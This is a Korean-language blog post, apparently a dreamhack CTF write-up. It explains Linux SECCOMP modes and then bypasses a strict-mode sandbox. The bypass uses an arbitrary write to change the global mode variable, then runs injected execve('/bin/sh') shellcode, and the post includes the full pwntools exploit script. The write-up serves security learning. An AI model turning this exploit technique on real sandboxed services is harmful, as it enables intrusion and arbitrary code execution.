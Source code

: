```yaml
---
layout: post
title:  "First Seccomp Bypass"
date:   2020-10-03
categories: ["2020","pwnable"]
update: 2020-10-03
comment: true
tags: [pwnable]
---
```






dreamhack 50등을 향한 마지막 문제로 Seccomp를 우회하는 문제였다. 처음 만나본 거라서 천천히 강의 내용 읽고, 코드 읽고 풀어봤다.

## 🤔 SECCOMP?

### Introduction

![image](https://user-images.githubusercontent.com/51329156/94989512-5f870800-05b0-11eb-9d95-614e91286e02.png)

Linux kernel은 많은 `syscall`들을 유저권한의 프로세스들에게 노출시킨다. 근데 그 `syscall`들을 모두 쓰는 게 아니고, 일부만 쓰고 나머지 `syscall`들은 사용되지 않은 채로 둔다. 프로세스가 다른 위험한 `syscall`을 호출하게 두는 것은 보안상 문제가 있다. 이를 위해 사용하는 것이 **SECCOMP(SECure COMPuting mode)** 이다.

**Seccomp filtering**은 프로세스의 `syscall` 요청들을 필터링하는 매커니즘이다. 위의 사진을 보면 프로세스가 `syscall`을 한 후, filter들을 통과하지 못하면 `SIGKILL`으로 프로세스를 종료시킨다.



## ❓ HOW TO USE SECCOMP

**SECCOMP** 기능은 `prtcl()` 함수로 사용할 수 있다.

``` c
int prctl(int option, unsigned long arg2, unsigned long arg3, unsigned long arg4, unsigned long arg5);
```

`option` 에 **PR_SET_SECCOMP**를 주면 **SECCOMP**를 설정할 수 있다.

**SECCOMP**를 설정할 때 사용할 수 있는 모드가 3가지 있다.

**seccomp.h**

``` c
#define SECCOMP_MODE_DISABLED	0 /* seccomp is not in use. */
#define SECCOMP_MODE_STRICT	1 /* uses hard-coded filter. */
#define SECCOMP_MODE_FILTER	2 /* uses user-supplied filter. */
```

### SECCOMP_MODE_STRICT

`read`, `write`, `exit`, `sigreturn` 시스템 콜의 호출만 허용하고, 이외의 시스템 콜의 호출 요청이 들어오면 SIGKILL 시그널을 발생하고 프로그램을 종료한다.

아래처럼 설정한다:

``` c
prctl(PR_SET_SECCOMP, SECCOMP_MODE_STRICT);
```



### SECCOMP_MODE_FILTER

필터링할 시스템 콜을 직접 지정해준다. 시스템콜을 관리할 때 **BPF(Berkeley Packet Filter)**라는 필터식을 이용해서 관리한다. **BPF**는 네트워크 패킷을 필터링하기 위해 만들어진 필터링 매커니즘인데, **SECCOMP**를 사용할 때도 이를 사용해 필터를 작성한다.

이 모드를 사용하려면 `no_new_privs` 비트가 설정되어 있어야 한다.

``` c
prctl(PR_SET_NO_NEW_PRIVS, 1)
```

그리고나서 아래처럼 설정한다:

```
prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, args);
```

이 모드를 사용할 때는 세 번째 인자로 전달되는 구조체인 `sock_fprog`에 대한 이해가 필요한데, 이 부분은 문제랑은 상관이 없어서 패스하도록 하겠다.



# SECCOMP BYPASS

### 🔎 Code

필요한 부분만 추려봤다:

``` c
...
int mode = SECCOMP_MODE_STRICT;
...
    if ( prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0) == -1 ) {
        perror("prctl(PR_SET_NO_NEW_PRIVS)\n");
        return -1;
        }
    if ( prctl(PR_SET_SECCOMP, mode, &prog) == -1 ) {
        perror("Seccomp filter error\n");
        return -1;
        }
...
shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
...
    switch(idx) {
            case 1:
                if(cnt != 0) {
                    exit(0);
                }

                syscall_filter();
                printf("shellcode: ");
                read(0, shellcode, 1024);
                cnt++;
                break;
            case 2:
                sc = (void *)shellcode;
                sc();
                break;
            case 3:
                printf("addr: ");
                scanf("%ld", &addr);
                printf("value: ");
                scanf("%ld", addr);
                break;
            default:
                break;
        }
```

이상하다고 느낀 점 👓

- 배울 때는 **FILTER_MODE** 일 때 `prctl()`에게 세 번째 인자로 `sock_fprog`의 주솔르 준다고 배웠다. 근데 **STRICT_MODE**인데도 줬다.
- `PR_SET_NO_NEW_PRIVS`도 마찬가지..

코드는 간단하다. `READ|WRITE|EXEC` 권한을 준 영역이 있다. 쉘코드를 입력할 수 있고, 실행도 할 수 있다. 원하는 주소에 값을 넣는 것도 가능하다.

일반적으로 사용하는 쉘코드는 `execve('/bin/sh')`의 기계어 코드다. `execve`는 **STRICT_MODE**에서 허용되지 않는 시스템 콜이다. 그래서 어떻게 우회해야 하지 생각하다가 `case 3`과 아까 이상하다고 느낀 점이 딱 맞아떨어져서 풀었다.

`mode`가 전역변수로 선언되어 있고, PIE가 꺼져있기 때문에 주소를 구할 수 있다. 현재 그 주소에 들어있는 값은 `0x1`이다. 이 것을  `0x2`로 바꿔주면  설정해준 필터가 없기 때문에 모든 시스템 콜을 사용할 수 있다! 그러면 `execve` 시스템 콜을 사용해서 쉘을 딸 수 있다 (`0x0`도 가능) 👍

### 🚀 Exploit

값을 바꾸기 전 **SECCOMP_MODE_STRICT**로 설정되어 있는 `mode` 변수 :

![image](https://user-images.githubusercontent.com/51329156/94990260-a297aa00-05b5-11eb-9a2a-6edf7f51e7ef.png)

저 변수의 값을 `case 3`을 이용해 `0x2`로 바꿔준다.

![image](https://user-images.githubusercontent.com/51329156/94990326-2b164a80-05b6-11eb-96c4-96b59eed8e92.png)

64비트 쉘코드를 `case 1`을 이용해 쓴다.

![image](https://user-images.githubusercontent.com/51329156/94990246-7bd97380-05b5-11eb-9d76-fe7f3cd4abcb.png)

`case 2`를 이용해 실행하면 된다.

#### ex.py

``` python
#!/usr/bin/python
# coding=utf-8
from pwn import *
import sys

context.arch = 'x86_64'
context.log_level='debug'

if len(sys.argv)!=2:
    log.info("try 'python ex.py -l' for local")
    log.info("try 'python ex.py -r' for remote")
    exit(0)

if sys.argv[1]=="-r":
    p = remote('🤐',22463)
elif sys.argv[1]=="-l":
    p = process('🤐')
else:
    log.info("options: -l for local, -r for remote")
    exit(0)

e=ELF('🤐')

# Adderss
mode_addr=e.symbols['mode']

log.info("mode address: {}".format(hex(mode_addr)))
shellcode=asm(shellcraft.amd64.linux.sh())

p.sendlineafter("> ","3")
p.sendlineafter("addr: ",str(mode_addr))
p.sendlineafter("value: ",str(2))


p.sendlineafter("> ","1")
p.sendlineafter("shellcode: ",shellcode)

p.sendlineafter("> ","2")

p.interactive()
```



![image-20201003202457446](C:\Users\a\AppData\Roaming\Typora\typora-user-images\image-20201003202457446.png)

❗ 새로 배운 개념이긴 했는데 문제가 워낙 쉽고 저번에 디버깅 연습해놓은 게 있어서 생각보다 금방 풀었다 !